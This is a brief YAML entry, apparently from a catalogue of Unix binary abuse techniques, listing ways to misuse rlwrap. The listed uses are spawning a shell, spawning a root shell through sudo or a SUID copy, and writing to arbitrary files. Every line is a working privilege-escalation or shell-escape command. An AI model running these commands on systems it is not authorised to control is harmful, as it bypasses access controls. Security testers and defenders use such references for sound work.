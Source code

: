 ```yaml
---
functions:
  execute-interactive:
    - code: rlwrap /bin/sh
  sudo-enabled:
    - code: sudo rlwrap /bin/sh
  suid-enabled:
    - code: ./rlwrap -H /dev/null /bin/sh -p
  file-write:
    - description: This adds timestamps to the output file.
      code: |
        LFILE=file_to_write
        rlwrap -l "$LFILE" echo data
---
```

